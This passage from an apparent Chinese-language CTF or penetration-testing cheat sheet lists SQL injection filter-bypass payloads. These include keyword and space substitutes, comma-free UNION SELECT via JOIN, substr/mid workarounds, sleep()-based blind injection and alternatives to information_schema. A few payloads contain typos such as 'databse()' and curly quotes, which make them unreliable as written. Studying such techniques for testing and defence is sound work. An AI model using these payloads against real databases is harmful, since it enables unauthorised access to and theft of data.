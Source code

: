 上面的`%c2`可以换为`%c2-%ef`之间的任意字符

## 常见字符的替代

```
and -> &&
or -> ||
空格-> /**/ -> %a0 -> %0a -> +
# -> --+ -> ;%00(php<=5.3.4) -> or '1'='1
= -> like -> regexp -> <> -> in
注：regexp为正则匹配，利用正则会有些新的注入手段
```

## 逗号被过滤

```sql
# 用join代替：
-1 union select 1,2,3
-1 union select * from (select 1)a join (select 2)b join (select 3)c%23

# limit：
limit 2,1
limit 1 offset 2

# substr:
substr(database(),5,1)
substr(database() from 5 for 1) from为从第几个字符开始，for为截取几个
substr(database() from 5)
# 如果for也被过滤了
mid(REVERSE(mid(database()from(-5)))from(-1)) reverse是反转，mid和substr等同

# if:
if(database()=’xxx’,sleep(3),1)
id=1 and databse()=’xxx’ and sleep(3)
select case when database()=’xxx’ then sleep(5) else 0 end
```

## limit被过滤

```sql
select user from users limit 1

加限制条件，如：

select user from users group by user_id having user_id = 1 (user_id是表中的一个column)
```

## information_schema被过滤

```sql
innodb引擎可用mysql.innodb_table_stats、innodb_index_stats，日志将会把表、键的信息记录到这两个表中

除此之外，系统表sys.schema_table_statistics_with_buffer、sys.schema_auto_increment_columns用于记录查询的缓存，某些情况下可代替information_schema
```
